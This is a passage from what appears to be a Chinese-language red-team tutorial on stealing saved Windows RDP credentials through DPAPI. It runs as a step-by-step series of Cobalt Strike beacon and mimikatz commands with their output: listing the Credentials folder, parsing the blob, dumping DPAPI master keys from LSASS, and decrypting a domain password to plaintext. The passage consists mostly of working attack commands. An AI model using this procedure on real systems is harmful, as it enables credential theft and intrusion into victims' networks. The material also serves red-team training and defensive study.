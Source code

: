 ```
C:Users&lt;username&gt;AppDataLocalMicrosoftCredentials*
```

可以使用如下命令进行查询：



```
beacon&gt; powerpick Get-ChildItem C:Usersrasta_mouseAppDataLocalMicrosoftCredentials -Force
Directory: C:Usersrasta_mouseAppDataLocalMicrosoftCredentials
Mode LastWriteTime Length Name
-a-hs- 02/09/2017 13:37 412 2647629F5AA74CD934ECD2F88D64ECD0 -a-hs- 30/08/2017 19:28 11204 DFBE70A7E5CC19A398EBF1B96859CE5D
```

现在，我们可以具体分析一下**C:Usersrasta_mouseAppDataLocalMicrosoftCredentials2647629F5AA74CD934ECD2F88D64ECD0**这个文件：



```
beacon&gt; mimikatz dpapi::cred /in:C:Usersrasta_mouseAppDataLocalMicrosoftCredentials2647629F5AA74CD934ECD2F88D64ECD0
BLOB dwVersion : 00000001 - 1 guidProvider : `{`df9d8cd0-1501-11d1-8c7a-00c04fc297eb`}` dwMasterKeyVersion : 00000001 - 1 guidMasterKey : `{`6515c6ef-60cd-4563-a3d5-3d70a6bc6992`}` dwFlags : 20000000 - 536870912 (system ; ) dwDescriptionLen : 00000030 - 48 szDescription : Local Credential Data
algCrypt : 00006603 - 26115 (CALG3DES) dwAlgCryptLen : 000000c0 - 192 dwSaltLen : 00000010 - 16 pbSalt : be072ec0f54a6ceaffd09fe2275d72f9 dwHmacKeyLen : 00000000 - 0 pbHmackKey : algHash : 00008004 - 32772 (CALGSHA1) dwAlgHashLen : 000000a0 - 160 dwHmac2KeyLen : 00000010 - 16 pbHmack2Key : a3579f9e295013432807757d3bcdf82e dwDataLen : 000000d8 - 216 pbData : 0bad8cb788a364061fa1eff57c3cbc83c8aa198c95537f66f2f973c8fe5e7210626c58423b84b55f604cff2b23165b690ad7fa7ad03d80051cb7c1a0e987f36586ede1bd7ff7e2b9f1d3cbc4b8f1b8557ab1be3402d3bfe39b1682353504ff156615b44ea83aa173c3f7830b65bf9202d823932ca69413fcb8bca1a76893c7cbab7e0ee0bbe9269a8b9f65e88e099334177be15cf977a44b77ba6e829c89303ef4764f5fd661e722c7508ad2e01a41f9cd079fc7ce5a8dba90c94a2314941674ad47567bd9c980548f809fe72ce4895b6a56cb9148c47afb dwSignLen : 00000014 - 20 pbSign : 43559a2b2e9b11bc4b56828a1d2ece489c9dfd52
```

其中我们需要注意两个字段：pbData以及guidMasterKey。pbData是我们需要解密的字段，而guidMasterKey是解密时要用到的关键值。

LSASS中很有可能在缓存中保存了这个关键值，因为我们具有SeDebugPrivilege权限，我们可以提升权限，获取相应信息。

```
beacon&gt; mimikatz !sekurlsa::dpapi
```

在一大堆输出结果中，我们找到了想要的GUID以及MasterKey值：

```
[00000000] * GUID : `{`6515c6ef-60cd-4563-a3d5-3d70a6bc6992`}` * Time : 02/09/2017 13:37:51 * MasterKey : 95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b * sha1(key) : 89f35906909d78c84ba64af38a2bd0d1d96a0726
```

如果我们在交互模式下运行mimikatz，程序会将这些值自动添加到dpapi缓存中，当我们准备解密凭据时，mimikatz就会使用这些值。但如果我们通过Cobalt Strike运行mimikatz，我们无法保持在同一个会话中（或者已经有人找到保持会话的方法，但我还不知道），因此，我们需要手动使用这个值。



```
beacon&gt; mimikatz dpapi::cred /in:C:Usersrasta_mouseAppDataLocalMicrosoftCredentials2647629F5AA74CD934ECD2F88D64ECD0 /masterkey:95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b
Decrypting Credential: * masterkey : 95664450d90eb2ce9a8b1933f823b90510b61374180ed5063043273940f50e728fe7871169c87a0bba5e0c470d91d21016311727bce2eff9c97445d444b6a17b CREDENTIAL credFlags : 00000030 - 48 credSize : 000000d2 - 210 credUnk0 : 00000000 - 0
Type : 00000002 - 2 - domainpassword Flags : 00000000 - 0 LastWritten : 02/09/2017 12:37:44 unkFlagsOrSize : 00000030 - 48 Persist : 00000002 - 2 - localmachine AttributeCount : 00000000 - 0 unk0 : 00000000 - 0 unk1 : 00000000 - 0 TargetName : Domain:target=TERMSRV/rdp01 UnkData : (null) Comment : (null) TargetAlias : (null) UserName : LANrastamouseadm CredentialBlob : Sup3rAw3s0m3Passw0rd! &lt;--- BOOM! Attributes : 0
```
